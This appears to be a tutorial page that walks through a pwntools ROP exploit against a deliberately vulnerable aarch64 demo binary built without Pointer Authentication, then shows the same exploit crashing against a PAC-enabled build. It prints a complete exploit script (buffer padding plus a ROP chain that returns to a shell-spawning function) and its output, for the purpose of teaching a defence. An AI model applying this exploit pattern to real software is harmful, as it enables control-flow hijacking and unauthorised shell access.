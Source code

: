 ```yaml
---
# User change
title: "Exploit applications built without Pointer Authentication instructions"

weight: 3 # 1 is first, 2 is second, etc.

# Do not modify
layout: "learningpathall"
---
```



## Pre-requisites

Install python dependencies and `pwntools` on your c7g EC2 instance. We will use this exploit development library to demonstrate how you can exploit the application we built in the previous section without pointer authentication.
 
```console
sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev -y
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

## Write the python script to exploit the application

Use a text editor, such as nano or vim, to create the file `exploit.py` with a script to try to exploit the application.

```console
#!/usr/bin/env python3

from pwn import *

context(os='linux', arch='aarch64')

binary = ELF('./main_nopac')

rop = ROP(binary)

padding = b'A' * 24

rop.call(binary.symbols['func2']) # return to func2

print(rop.gadgets)
log.info("ROP chain:\n" + rop.dump())

print(rop.chain())
data = padding + rop.chain()
print(data)
data = data.replace(b'\0',b'')

print(data)
r = process(['./main_nopac', data])

r.interactive()
```

## Run exploit.py on `main_nopac`

Run the script which exploits `main_nopac`

```console
chmod +x ./exploit.py
./exploit.py
```

You will the output below:

```console
[*] '/home/ubuntu/pac-test/main_nopac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_nopac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006f8 0x4006f8()
b'\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@'
[+] Starting local process './main_nopac': pid 48515
[*] Switching to interactive mode
Hello World!
$
```

You will be at an interactive shell prompt when you execute this script. You can use the interactive shell and run any commands. You were able to successfully exploit the flow control execution of the program and jump to address `0x4006f8` which maps to entry address of `func2` in `main.c`. `func2` invokes the interactive shell `/bin/sh`. With a legitimate flow of execution, `func2` would never be invoked and you would not be able to get to an interactive shell prompt.

Use Control-C to exit the application.

### Run exploit.py on `main_pac`

This time we will use the same exploit.py script but run it on the `main_pac` application which was built with PAC instructions for enhanced security.

Replace the arguments passed in the elf and process commands with `main_pac` using sed. This saves a new file `exploit_pac.py`

```console
sed 's/main_nopac/main_pac/g' exploit.py > exploit_pac.py
```

Now execute `exploit_pac.py`

```console
chmod +x exploit_pac.py
./exploit_pac.py
```

This time you will not be able to use the interactive shell prompt and get a SIGSEV instead. As the signed PAC instruction could not be authenticated we were not able to exploit the application.

```console
[*] '/home/ubuntu/pac-test/main_pac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_pac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006fc 0x4006fc()
b'\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@'
[+] Starting local process './main_pac': pid 48554
[*] Switching to interactive mode
Hello World!
[*] Got EOF while reading in interactive
$
[*] Process './main_pac' stopped with exit code -11 (SIGSEGV) (pid 48554)
[*] Got EOF while sending in interactive
```

This example demonstrates how Pointer Authentication provides some protection against attacks.
